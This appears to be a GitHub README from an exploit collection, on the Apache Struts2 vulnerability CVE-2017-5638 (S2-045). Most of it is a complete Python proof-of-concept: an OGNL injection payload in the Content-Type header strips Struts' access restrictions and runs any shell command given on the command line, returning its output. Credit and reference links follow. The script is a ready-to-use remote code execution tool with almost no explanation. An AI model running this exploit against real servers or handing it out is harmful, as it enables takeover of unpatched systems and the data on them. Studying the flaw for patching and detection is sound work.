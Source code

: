 # CVE-2017-5638, which is also known as S2-045

- Report: Jan 2017
- Credit: Nike Zheng \<nike dot zheng at dbappsecurity dot com dot cn>

## PoC

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import urllib2
import httplib


def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"

    try:
        headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
        request = urllib2.Request(url, headers=headers)
        page = urllib2.urlopen(request).read()
    except httplib.IncompleteRead, e:
        page = e.partial

    print(page)
    return page


if __name__ == '__main__':
    import sys
    if len(sys.argv) != 3:
        print("[*] struts2_S2-045.py <url> <cmd>")
    else:
        print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
        url = sys.argv[1]
        cmd = sys.argv[2]
        print("[*] cmd: %s\n" % cmd)
        exploit(url, cmd)
```

## Reference

- [【漏洞预警】Apache Struts2 曝任意代码执行漏洞 (S2-045,CVE-2017-5638)](http://www.freebuf.com/vuls/128668.html)
- [S2-045 原理初步分析（CVE-2017-5638）](http://paper.seebug.org/241/)
- [CVE-2017-5638](https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638)
- [An Analysis Of CVE-2017-5638](https://blog.gdssecurity.com/labs/2017/3/27/an-analysis-of-cve-2017-5638.html)
- [Worried about Strutshock (CVE-2017-5638)?](https://www.tinfoilsecurity.com/strutshock).
- [CWE-2017-5638](http://www.ninoishere.com/cwe-2017-5638/)
